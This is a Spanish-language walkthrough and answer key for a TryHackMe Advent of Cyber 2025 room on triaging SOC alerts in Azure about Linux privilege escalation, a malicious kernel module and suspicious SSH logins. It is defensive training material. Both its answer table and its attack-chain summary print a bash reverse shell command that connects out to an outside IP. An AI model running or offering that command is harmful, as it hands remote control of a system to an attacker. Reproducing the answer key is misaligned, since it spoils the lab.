


# SOC Alert Triaging - Tinsel Triage

| **Dificultad** | Easy | **Tipo** | walkthrough | **Slug** | `day10socalerttriagingtinseltriage` |
| **Link** | [TryHackMe](https://tryhackme.com/room/adventofcyber25) |
| **Sección** | Advent of Cyber Tryhackme |
| **Fuente** | texto oficial THM + anotaciones propias |
| **Componentes** | SOC / alert triaging / Microsoft Azure / Linux PrivEsc / Polkit Exploit / Sudo Shadow Access / Sysmon / SSH / kernel module |
| **Impacto** | Realizar triaje de alertas SOC en Azure: cuantificar entidades afectadas, severidad y artefactos maliciosos |

---

**Contexto:** Día 10 del Advent of Cyber 2025. Como analista SOC se realiza el triaje de varias alertas en Microsoft Azure relacionadas con escalada de privilegios en Linux (Polkit Exploit Attempt, Sudo Shadow Access, User Added to Sudo Group), un módulo de kernel instalado en websrv-01, un comando inusual de reverse shell ejecutado por el usuario ops, y accesos SSH sospechosos a storage-01 y app-01. Cada pregunta se responde a partir de las métricas y entidades que muestra cada alerta en la consola de Azure.

## Solucionario

### Día 10: SOC Alert Triaging - Tinsel Triage

**Explicación:**

- Microsoft Azure 



| # | Pregunta | Respuesta |
|---|----------|-----------|
| 1 | How many entities are affected by the Linux PrivEsc - Polkit Exploit Attempt alert? | `10` |
| 2 | What is the severity of the Linux PrivEsc - Sudo Shadow Access alert? | `high` |
| 3 | How many accounts were added to the sudoers group in the Linux PrivEsc - User Added to Sudo Group alert? | `4` |
| 4 | What is the name of the kernel module installed in websrv-01? | `malicious_mod.ko` |
| 5 | What is the unusual command executed within websrv-01 by the ops user? | `/bin/bash -i >& /dev/tcp/198.51.100.22/4444 0>&1` |
| 6 | What is the source IP address of the first successful SSH login to storage-01? | `172.16.0.12` |
| 7 | What is the external source IP that successfully logged in as root to app-01? | `203.0.113.45` |
| 8 | Aside from the backup user, what is the name of the user added to the sudoers group inside app-01? | `deploy` |

---

**Metodología:** Se abrió cada alerta en el portal de Microsoft Azure y se leyeron los metadatos (entidades afectadas, severidad, cuentas implicadas y recursos involucrados). Se correlacionaron los detalles de cada alerta con la máquina objetivo (websrv-01, storage-01, app-01) para responder a las preguntas sobre el módulo de kernel, el comando de reverse shell y los accesos SSH.
**Learning chain:** Azure Security Center <- Alertas SOC <- Linux PrivEsc (Polkit/Sudo) <- módulo de kernel instalado <- reverse shell del usuario ops <- SSH interno/externo <- respuesta de triaje

Cadena de ataque / Attack Chain:
```
exploit Polkit (CVE-2021-4034) -> sospecha de priv escalation en websrv-01 -> carga del kernel module malicious_mod.ko -> abuso de sudo/shadow -> adición de usuarios a sudoers -> reverse shell /bin/bash -i >& /dev/tcp/198.51.100.22/4444 0>&1 -> acceso SSH interno (172.16.0.12) y externo (203.0.113.45) como root -> triaje de alertas
```

**Lección:** *El triaje de alertas SOC no se hace adivinando: cada campo de la alerta (severidad, entidades afectadas, cuentas, IPs) es evidencia accionable, y correlacionar alarmas similares entre máquinas revela la cadena completa de un ataque de escalada de privilegios.*

**MITRE ATT&CK:** T1068 - Exploitation for Privilege Escalation, T1547.006 - Kernel Modules and Extensions, T1059.004 - Unix Shell, T1098 - Account Manipulation, T1021.001 - Remote Services: SSH

**Fuente:** [TryHackMe - SOC Alert Triaging - Tinsel Triage](https://tryhackme.com/room/adventofcyber25)

---

## ⚠️ Descargo de Responsabilidad (Disclaimer)

Este contenido se presenta exclusivamente con fines académicos y educativos.

**Sin Afiliación:** Este espacio no posee ninguna alianza, asociación, patrocinio ni vinculación oficial con TryHackMe.
**Veracidad de los Datos:** La información aquí contenida tiene un propósito ilustrativo y formativo. Los datos, políticas, precios o características de los servicios mencionados pueden variar y no son decididos por TryHackMe en este contexto.
**Referencia Oficial:** Para obtener información precisa, oficial y actualizada, se recomienda encarecidamente visitar el sitio web oficial de TryHackMe (https://tryhackme.com).
**Uso Ético:** No fomentamos ni nos responsabilizamos por el uso indebido de esta información fuera de fines educativos o profesionales legítimos.